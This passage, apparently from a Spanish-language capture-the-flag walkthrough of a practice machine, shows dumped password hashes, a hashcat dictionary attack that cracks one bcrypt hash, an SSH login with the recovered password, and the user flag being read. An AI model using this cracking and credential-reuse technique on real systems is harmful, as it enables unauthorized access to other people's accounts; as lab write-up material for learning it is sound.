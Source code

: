 ```bash
guest	43e9a4ab75570f5b
marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Utilizando `hashcat` junto con el diccionario `rockyou.txt` se puede crackear el hash de marcus para iniciar sesion vía SSH.

```bash
$ hashcat -a 0 -m 3200 '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' /usr/share/wordlists/rockyou.txt  --show
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

$ ssh marcus@10.10.11.211       
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 27 Sep 2023 10:11:37 PM UTC

  System load:                      0.0
  Usage of /:                       63.0% of 6.73GB
  Memory usage:                     17%
  Swap usage:                       0%
  Processes:                        229
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:22a1


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ cat user.txt
d9947b0eae40f1554a10eda3b4035f08
```

